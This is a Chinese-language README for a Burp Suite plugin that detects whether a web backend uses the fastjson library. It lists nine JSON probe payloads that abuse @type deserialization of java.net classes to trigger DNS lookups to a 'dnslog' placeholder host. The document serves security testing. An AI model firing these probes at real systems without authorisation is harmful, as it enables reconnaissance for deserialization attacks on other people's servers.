 # Fastjson-Scanner

闲来无事，在家写了个fastjson后端组件探测，用于探测后端是否使用fastjson。

使用的poc如下：

```
            """{"rand":{"@type":"java.net.InetAddress","val":"dnslog"}}""",
            """{"rand":{"@type":"java.net.Inet4Address","val":"dnslog"}}""",
            """{"rand":{"@type":"java.net.Inet6Address","val":"dnslog"}}""",
            """{"rand":{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}}""",
            """{"rand":{"@type":"java.net.URL","val":"http://dnslog"}}""",
            """{"rand":{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://dnslog"}}""}}""",
            """{"rand":Set[{"@type":"java.net.URL","val":"http://dnslog"}]}""",
            """{"rand":Set[{"@type":"java.net.URL","val":"http://dnslog"}""",
            """{"rand":{"@type":"java.net.URL","val":"http://dnslog"}:0""",
```

### 优点

不仅能够探测POST中的json数据，还能够判断GET中的json数据，支持urlencode、urldecode等。

两种数据对应格式如下：

GET：

```
GET /?json={"fastjson":"example"}
```

POST：

```
POST /

...


{"fastjson":"example"}
```

### 使用方法

导入插件即可默认开始使用，对数据包进行被动扫描，由于使用的是burp自带的dnslog，所以稍微会有电脑延时，代码里写了sleep 10来获取result。


![first](https://s1.ax1x.com/2020/03/29/GEalbF.png)

当导入数据包后，在burp内可以看到FastjsonScanner这个窗口，代表导入成功，当探测成功后，会在其中显示对应的数据包以及参数：

![image](https://user-images.githubusercontent.com/14137698/86531657-b7e93380-bef5-11ea-91b7-3f4a87929694.png)

![image](https://user-images.githubusercontent.com/14137698/86531663-c9cad680-bef5-11ea-95f7-c57bd665d5ff.png)

![image](https://user-images.githubusercontent.com/14137698/86531675-dfd89700-bef5-11ea-9987-46ee6c08efda.png)



### 修改记录

1. 所有的payload进行打印

2. 增加多个检测的payload

3. 输出检测结果

4. 在某些场景下强行改变get为post请求
